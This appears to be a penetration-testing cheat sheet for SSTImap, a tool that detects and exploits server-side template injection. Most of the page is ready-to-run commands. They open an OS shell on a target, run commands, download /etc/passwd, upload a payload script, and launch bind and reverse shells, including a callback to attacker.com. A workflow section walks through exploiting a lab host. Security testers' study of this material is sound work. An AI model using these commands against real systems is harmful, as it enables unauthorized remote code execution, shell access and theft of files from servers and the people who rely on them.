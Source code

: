 ```yaml
---
icon: shield-cross
---
```


# SSTImap

## The SSTImap Masterclass: Professional SSTI Detection & Exploitation

SSTImap is an advanced, interactive tool for detecting and exploiting Server-Side Template Injection (SSTI) vulnerabilities across multiple template engines and web frameworks. It supports code evaluation, OS command execution, file operations, and blind injection scenarios, making it essential for professional web application penetration testers.

***

### I. Environment Setup: Dynamic Variables

Export variables for flexible, repeatable workflows and organized output:

```bash
export URL="<https://target.com/page?name=FUZZ>"
export COOKIE="SESSION=abcd1234; other=xyz"
export USER_AGENT="Mozilla/5.0 (SSTImap)"
export PROXY="<http://127.0.0.1:8080>"
export OUTPUT_DIR="sstimap-results"
export PARAM="name"
export THREADS=10
```

***

### II. Core Capabilities & Workflow

* Automatic SSTI detection across common engines such as Jinja2, Twig, Smarty, and more
* Interactive exploitation for OS and template engine code execution
* Blind and contextual injection handling
* Payload library with generic and engine-specific payloads
* File operations (read and write) on the target system
* Shell access options (bind and reverse), OS command execution, and code evaluation
* SSL and header control (proxy, User-Agent, cookies)

***

### III. Professional Usage Examples

#### 1) Automatic SSTI Detection (Predetermined Mode)

```bash
python3 [sstimap.py](<http://sstimap.py>) -u "$URL"
```

#### 2) Specify Parameter for Testing

```bash
python3 [sstimap.py](<http://sstimap.py>) -u "$URL" -p "$PARAM"
```

#### 3) Use Proxy (e.g., Burp Suite)

```bash
python3 [sstimap.py](<http://sstimap.py>) -u "$URL" --proxy "$PROXY"
```

#### 4) Custom User-Agent and Cookies

```bash
python3 [sstimap.py](<http://sstimap.py>) -u "$URL" --user-agent "$USER_AGENT" --cookie "$COOKIE"
```

#### 5) Interactive OS Shell on Target

```bash
python3 [sstimap.py](<http://sstimap.py>) -u "$URL" --os-shell
```

#### 6) Execute OS Command

```bash
python3 [sstimap.py](<http://sstimap.py>) -u "$URL" --os-cmd "whoami"
```

#### 7) Evaluate Code in Template Engine Language

```bash
python3 [sstimap.py](<http://sstimap.py>) -u "$URL" --eval-cmd "7*7"
```

#### 8) File Read/Write Operations

```bash
python3 [sstimap.py](<http://sstimap.py>) -u "$URL" --download "/etc/passwd" "./passwd.txt"
python3 [sstimap.py](<http://sstimap.py>) -u "$URL" --upload "./[payload.sh](<http://payload.sh>)" "/tmp/[payload.sh](<http://payload.sh>)"
```

#### 9) Bind and Reverse Shells

```bash
python3 [sstimap.py](<http://sstimap.py>) -u "$URL" --bind-shell 4444
python3 [sstimap.py](<http://sstimap.py>) -u "$URL" --reverse-shell [attacker.com](<http://attacker.com>) 4444
```

#### 10) Test All Contexts with Generic Payloads

```bash
python3 [sstimap.py](<http://sstimap.py>) -u "$URL" --generic
```

***

### IV. Real-World Workflow Example

1. Export variables

```bash
export URL="<https://app.htb/page?name=FUZZ>"
export COOKIE="SESSION=xyz"
export OUTPUT_DIR="sstimap_htb"
```

2. Detect SSTI and identify engine

```bash
python3 [sstimap.py](<http://sstimap.py>) -u "$URL" --cookie "$COOKIE" --output "$OUTPUT_DIR/detect.txt"
```

3. Exploit with OS shell

```bash
python3 [sstimap.py](<http://sstimap.py>) -u "$URL" --os-shell --output "$OUTPUT_DIR/os-shell.txt"
```

4. Read sensitive files

```bash
python3 [sstimap.py](<http://sstimap.py>) -u "$URL" --download "/etc/passwd" "$OUTPUT_DIR/passwd.txt"
```

5. Blind injection (if needed)

* Use generic payloads and monitor for out-of-band effects or delayed responses.

6. Document findings

* Save all output and exploitation steps for reporting and future reference.

***

### V. Pro Tips & Best Practices

* Start with automatic detection to quickly identify engine and context
* Use interactive shells for deeper exploitation and post-exploitation
* Test all contexts with `--generic` for comprehensive coverage
* Prefer engine-specific payloads for reliability and impact
* Route traffic through Burp for manual inspection when needed
* Record all steps and outputs for reporting and reproducibility
* Only test targets with explicit authorization
* Combine with manual testing and tools like Tplmap and custom payloads for full SSTI coverage

***

This professional SSTImap guide equips you for advanced, context-driven SSTI detection, exploitation, and reporting in real-world web application security assessments.

1. [https://github.com/vladko312/SSTImap](https://github.com/vladko312/SSTImap)
2. [https://owasp.org/www-project-web-security-testing-guide/v41/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/18-Testing\_for\_Server\_Side\_Template\_Injection](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection)
3. [https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)
4. [https://infosecwriteups.com/mastering-server-side-template-injection-ssti-a-comprehensive-guide-for-pentesters-4fa5e092f56e](https://infosecwriteups.com/mastering-server-side-template-injection-ssti-a-comprehensive-guide-for-pentesters-4fa5e092f56e)
5. [https://cybersectools.com/tools/sstimap](https://cybersectools.com/tools/sstimap)
6. [https://pentestreports.com/command/sstimap](https://pentestreports.com/command/sstimap)
7. [https://sallam.gitbook.io/sec-88/web-appsec/ssti](https://sallam.gitbook.io/sec-88/web-appsec/ssti)
